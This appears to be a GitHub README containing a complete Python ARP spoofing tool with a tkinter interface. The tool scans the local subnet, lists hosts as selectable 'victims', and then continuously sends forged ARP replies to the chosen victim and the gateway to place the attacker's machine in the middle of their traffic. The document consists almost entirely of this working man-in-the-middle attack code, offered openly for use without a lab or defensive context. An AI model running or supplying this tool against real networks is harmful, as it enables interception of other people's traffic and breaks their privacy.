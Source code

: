 # lalitkumarthapa-ARP-
arp spoofing code
#!/usr/bin/env python3
# © FlalitkKumar Thapa

import os
import time
import threading
import tkinter as tk
from tkinter import messagebox
from scapy.all import ARP, Ether, sendp, srp, conf, get_if_addr, get_if_hwaddr

# Global variables
stop_event = threading.Event()
hosts = []
attacker_ip = ""
attacker_mac = ""
gateway_ip = ""
gateway_mac = ""
iface = conf.iface

def get_gateway_ip():
    with os.popen("ip route | grep default") as f:
        return f.read().split()[2]

def getmac(ip):
    pkt = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip)
    ans, _ = srp(pkt, timeout=2, verbose=False)
    if ans:
        return ans[0][1].hwsrc
    else:
        return None

def arp_scan(subnet):
    pkt = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=subnet)
    ans, _ = srp(pkt, timeout=2, verbose=False)
    live_hosts = []
    for snd, rcv in ans:
        live_hosts.append((rcv.psrc, rcv.hwsrc))
    return live_hosts

def spoof(victim_ip, victim_mac, spoof_ip, attacker_mac, iface):
    while not stop_event.is_set():
        pkt1 = Ether(dst=victim_mac, src=attacker_mac) / ARP(
            op=2, psrc=spoof_ip, pdst=victim_ip, hwdst=victim_mac, hwsrc=attacker_mac
        )
        pkt2 = Ether(dst=gateway_mac, src=attacker_mac) / ARP(
            op=2, psrc=victim_ip, pdst=gateway_ip, hwdst=gateway_mac, hwsrc=attacker_mac
        )
        sendp(pkt1, iface=iface, verbose=False)
        sendp(pkt2, iface=iface, verbose=False)
        time.sleep(2)

def start_spoofing():
    global stop_event
    try:
        index = victim_listbox.curselection()[0]
    except IndexError:
        messagebox.showerror("Error", "Please select a victim.")
        return

    victim_ip, victim_mac = hosts[index]
    status_label.config(text=f"🔴 Spoofing {victim_ip}")
    stop_event.clear()
    t = threading.Thread(target=spoof, args=(victim_ip, victim_mac, gateway_ip, attacker_mac, iface))
    t.daemon = True
    t.start()

def stop_spoofing():
    global stop_event
    stop_event.set()
    status_label.config(text="🟢 Spoofing stopped")

def scan_hosts():
    global hosts, attacker_ip, attacker_mac, gateway_ip, gateway_mac
    status_label.config(text="🟡 Scanning network...")
    victim_listbox.delete(0, tk.END)

    attacker_ip = get_if_addr(iface)
    attacker_mac = get_if_hwaddr(iface)
    gateway_ip = get_gateway_ip()
    gateway_mac = getmac(gateway_ip)

    subnet = attacker_ip.rsplit('.', 1)[0] + '.0/24'
    hosts = arp_scan(subnet)

    if not hosts:
        victim_listbox.insert(tk.END, "No live hosts found.")
        return

    for ip, mac in hosts:
        victim_listbox.insert(tk.END, f"{ip} - {mac}")
    
    status_label.config(text="🟢 Scan complete")

# GUI Setup
root = tk.Tk()
root.title("ARP Spoofer - © FlalitkKumar Thapa")
root.geometry("500x430")
root.resizable(False, False)

tk.Label(root, text="ARP Spoofer Tool", font=("Helvetica", 16, "bold")).pack(pady=10)

tk.Button(root, text="🔍 Scan Network", command=scan_hosts, bg="#337ab7", fg="white", width=25).pack(pady=5)

victim_listbox = tk.Listbox(root, width=60, height=10)
victim_listbox.pack(pady=10)

tk.Button(root, text="▶ Start Spoofing", command=start_spoofing, bg="#5cb85c", fg="white", width=25).pack(pady=5)
tk.Button(root, text="⏹ Stop Spoofing", command=stop_spoofing, bg="#d9534f", fg="white", width=25).pack(pady=5)

status_label = tk.Label(root, text="🔵 Idle", font=("Arial", 11))
status_label.pack(pady=20)

tk.Label(root, text="© FlalitkKumar Thapa", font=("Arial", 9)).pack(side="bottom", pady=5)

root.mainloop()
